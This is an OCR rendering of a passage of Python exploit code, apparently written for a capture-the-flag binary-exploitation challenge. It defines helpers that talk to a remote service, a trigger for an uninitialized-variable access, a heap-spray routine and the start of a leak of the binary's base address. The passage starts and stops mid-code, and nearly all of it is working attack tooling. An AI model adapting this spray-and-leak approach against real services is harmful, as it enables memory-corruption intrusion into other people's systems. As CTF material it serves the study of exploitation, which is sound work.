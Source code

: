 ```py
    else:
        print(PORT)
        p = Remote(IP, PORT)
        p.timeout = 1500

def destroy():
    try:
        _p.close()
    except:
        pass
    try:
        p.close()
    except:
        pass

def cmd(sel, data):
    p.recvuntil('\xCC\x00')
    p.send(str(sel))
    p.send(data)

def sel1(s):
    cmd(1, s)  # s == '\n' causes uninit var access
    p.recvuntil('DEBUG: obj->hash:\0')
    return p.recvuntil('\xAA\xBB')[:-2]

def sel2(wait=4000):
    old_timeout, p.timeout = p.timeout, wait
    cmd(2, '')  # liveliness test?
    p.timeout = old_timeout

def sel3(elem_cnt, indices, strs):
    payload  = p32(elem_cnt)
    payload += ''.join(map(lambda x: p32(x[0])+x[1][0]+x[1][1], zip(indices, strs)))
    cmd(3, payload)

def sel3_free():
    cmd(3, p32(0xffff))

def spray(cnt, spray_payload):
    elem_cnt = cnt
    indices = list(range(elem_cnt))
    assert('\n' not in spray_payload[:-1])
    strs = [(spray_payload, spray_payload)] * elem_cnt
    sel3(elem_cnt, indices, strs)

# binary base leak
def leak_binary_base():
    match_1 = ''.join(chr(int(c, 16)) for c in """
    38 39 3A 3B 3C 3D 3E 3F  40 41 42 43 44 45 46 47
    48 49 4A 4B 4C 4D 4E 4F  50 51 52 53 54 55 56 57
    58 59 5A 5B 5C 5D 5E 5F  60 41 42 43 44 45 46 47
    48 49 4A 4B 4C 4D 4E 4F  50 51 52 53 54 55 56 57
    58 59 5A 7B 7C 7D 7E 7F  80 81 82 83 84 85 86 87
    88 89 8A 8B 8C 8D 8E 8F  90 91 92 93 94 95 96 97
    98 99 9A 9B 9C 9D 9E 9F  A0 A1 A2 A3 A4 A5 A6 A7
    A8 A9 AA AB AC AD AE AF  B0 B1 B2 B3 B4 B5 B6 B7
    B8 B9 BA BB BC BD BE BF  C0 C1 C2 C3 C4 C5 C6 C7
    C8 C9 CA CB CC CD CE CF  D0 D1 D2 D3 D4 D5 D6 D7
    D8 D9 DA DB DC DD DE DF  E0 E1 E2 E3 E4 E5 E6 E7
    E8 E9 EA EB EC ED EE EF  F0 F1 F2 F3 F4 F5 F6 F7
    F8 F9 FA FB FC FD FE FF  75
    """.strip().split())
    match_2 = '\x83\xE6\x3F\x80\x7F\x29'
```
